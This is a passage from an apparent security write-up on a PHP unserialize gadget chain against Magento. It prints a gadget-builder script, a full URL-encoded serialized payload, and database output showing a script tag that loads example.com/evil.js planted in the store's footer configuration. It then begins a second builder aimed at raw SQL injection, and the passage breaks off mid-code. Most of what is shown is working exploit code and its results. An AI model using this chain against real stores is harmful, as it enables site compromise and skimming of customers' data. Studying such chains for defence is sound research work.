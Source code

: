 ```php?start_inline=1
echo urlencode(serialize(new Credis_Client));
```

Running it I get the following payload...

```
$ php gadget-builder.php
O%3A13%3A%22Credis_Client%22%3A2%3A%7Bs%3A8%3A%22%00%2A%00redis%22%3BO%3A42%3A%22Mage_Sales_Model_Order_Payment_Transaction%22%3A5%3A%7Bs%3A14%3A%22%00%2A%00_isFailsafe%22%3Bb%3A1%3Bs%3A17%3A%22%00%2A%00_paymentObject%22%3BO%3A30%3A%22Mage_Sales_Model_Order_Payment%22%3A1%3A%7Bs%3A15%3A%22%00%2A%00_idFieldName%22%3Bs%3A2%3A%22id%22%3B%7Ds%3A8%3A%22%00%2A%00_data%22%3Ba%3A5%3A%7Bs%3A8%3A%22order_id%22%3Bi%3A1%3Bs%3A5%3A%22scope%22%3Bs%3A7%3A%22default%22%3Bs%3A8%3A%22scope_id%22%3Bi%3A0%3Bs%3A4%3A%22path%22%3Bs%3A29%3A%22design%2Ffooter%2Fabsolute_footer%22%3Bs%3A5%3A%22value%22%3Bs%3A50%3A%22%3Cscript+src%3D%22http%3A%2F%2Fexample.com%2Fevil.js%3E%3C%2Fscript%3E%22%22%3B%7Ds%3A16%3A%22%00%2A%00_resourceName%22%3Bs%3A16%3A%22core%2Fconfig_data%22%3Bs%3A15%3A%22%00%2A%00_idFieldName%22%3Bs%3A2%3A%22id%22%3B%7Ds%3A12%3A%22%00%2A%00connected%22%3Bb%3A1%3B%7D
```

Send that payload to `target.php` and then consult the database, to see the malware.

```
mysql> select * from core_config_data where path = 'design/footer/absolute_footer';
+-----------+---------+----------+-------------------------------+----------------------------------------------------+
| config_id | scope   | scope_id | path                          | value                                              |
+-----------+---------+----------+-------------------------------+----------------------------------------------------+
|        44 | default |        0 | design/footer/absolute_footer | <script src="http://example.com/evil.js></script>" |
+-----------+---------+----------+-------------------------------+----------------------------------------------------+
1 row in set (0.00 sec)

mysql>
```

### Can We Get Raw SQL Injection?

Watered down SQL injection is nice, but complete SQL injection is better. I started to do some investigation to understand if it is possible.

Setting the data directly to an SQL injection string will not work because of escaping. However, there's a trick.

Instead of using a string, if we pass the data value as an instance of `Zend_Db_Expr` it will not be escaped.

Here's a `gadget-builder.php` that inserts into `newletter_subscriber` and then deletes the data it just inserted...

```php?start_inline=1
<?php

class Credis_Client
{
    protected $redis;
    protected $connected;

    public function __construct()
    {
        $this->connected = true;
        $this->redis = new Mage_Sales_Model_Order_Payment_Transaction;
    }
}

class Mage_Sales_Model_Order_Payment_Transaction
{
```